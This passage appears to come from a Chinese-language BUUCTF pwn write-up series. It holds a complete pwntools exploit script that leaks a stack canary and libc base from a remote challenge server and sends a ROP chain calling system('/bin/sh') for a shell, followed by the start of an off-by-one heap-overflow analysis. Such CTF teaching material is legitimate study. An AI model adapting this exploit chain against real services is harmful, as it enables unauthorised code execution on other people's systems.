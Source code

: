 ```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29017)
def Input(content):
    io.sendafter(b'>> ', b'1'.ljust(0x20, b' '))
    io.send(content)
def Output():
    io.sendafter(b'>> ', b'2'.ljust(0x20, b' '))
Input(cyclic(0x89))
Output()
io.recv(0x88)
canary = u64(io.recv(8))
canary &= 0xFFFFFFFFFFFFFF00
print(hex(canary))

payload = cyclic(0x90)
payload += p64(0xdeadbeefdeadbeef)
Input(payload)
Output()
io.recv(0x98)
retaddr = u64(io.recv(6) + b'\x00\x00')
print(hex(retaddr))
libc_start_main = retaddr - 240
libc = LibcSearcher('__libc_start_main', libc_start_main)
base = libc_start_main - libc.dump('__libc_start_main')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(0x88)
payload += p64(canary)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0x400A93)
payload += p64(binsh)
payload += p64(sys)
Input(payload)
io.sendafter(b'>> ', b'3'.ljust(0x20, b' '))
io.interactive()
```
# buu064-0ctf_2017_babyheap
同第29题。
# buu065-hitcontraining_heapcreator
![](1.png)
容易得到程序控制的结构体如上，一共可以申请至多10个这样的结构体。包含创建、删除、打印、修改选项，其中修改选项中含有off by one漏洞。
![](2.png)
这里read_input函数中使用的是read函数，因此这一个溢出的字节可以是任何值。将这个字节的值变大会导致堆块重叠。
![](3.png)
